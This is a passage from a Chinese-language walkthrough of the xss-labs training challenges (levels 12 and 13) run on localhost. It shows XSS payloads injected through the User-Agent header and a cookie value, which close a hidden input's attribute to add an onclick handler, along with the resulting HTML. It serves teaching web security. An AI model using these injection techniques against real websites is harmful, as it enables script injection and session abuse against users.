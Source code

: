有了上一关的经验，我们长话短说，直接开干！尝试将 `User-Agent` 修改成 `" onclick="alert()" type="`（**盲猜其 value 属性内容不会被转换成 HTML 实体，也不存在关键字替换等骚操作**），然回随便发一个 Get 请求！

```js
// 修改前的结果：
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
// 修改后的结果：
// 第 1 个双引号用于闭合 value 属性的第一个双引号，即构成 value=""
// 最后 1 个双引号用于闭合 value 属性的最后一个双引号，即构成 type=""，进而令后面的 type="hidden" 失效，使 input 输入框显示在页面中，为最后点击输入框导致弹窗做准备！
User-Agent: " onclick="alert()" type="
```

然后右击查看源代码，发现成功注入！！！🎉

```html
<input name="t_ua"  value="" onclick="alert()" type="" type="hidden">
```



## 第 13 关：标签属性闭合 + 注入事件属性

发送 Get 请求：`http://localhost/xss-labs/level13.php?keyword=<script>alert('hi')</script>`，然后右击查看网页源代码，发现输入框 <h2> 标签里面的内容被 HTML 实体化了，但是但是但是会发现单引号`'`没有被实体化！（但是这里依旧无法利用此漏洞来进行闭合绕过，因为没有可闭合的点），然后页面源代码中还有 4 个奇奇怪怪的被隐藏的 <input> 标签！其中前 3 个和上面那三关一样，**第 4 个根据 t_cook 提示，其 value 值应该是指 Cookie 值 ！**

```html
<h2 align=center>没有找到和&lt;script&gt;alert('hi')&lt;/script&gt;相关的结果.</h2><center>

<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
  
<input name="t_cook"  value="call me maybe?" type="hidden">
```

有了前面三关的经验，这里长话短说，点击浏览器中的 Developer Tool —> Applicatoin —> Cookie，然后将 Cookie value 修改成：`" onclick="alert()" type="`（**盲猜其 value 属性内容不会被转换成 HTML 实体，也不存在关键字替换等骚操作**）：

```js
// 修改前：
Cookie value: call+me+maybe%3F
// 修改后：
// 第 1 个双引号用于闭合 value 属性的第一个双引号，即构成 value=""
// 最后 1 个双引号用于闭合 value 属性的最后一个双引号，即构成 type=""，进而令后面的 type="hidden" 失效，使 input 输入框显示在页面中，为最后点击输入框导致弹窗做准备！
Cookie value: " onclick="alert()" type="
```

然后右击查看源代码，发现成功注入！！！🎉

```html
<input name="t_cook"  value="" onclick="alert()" type="" type="hidden">
```

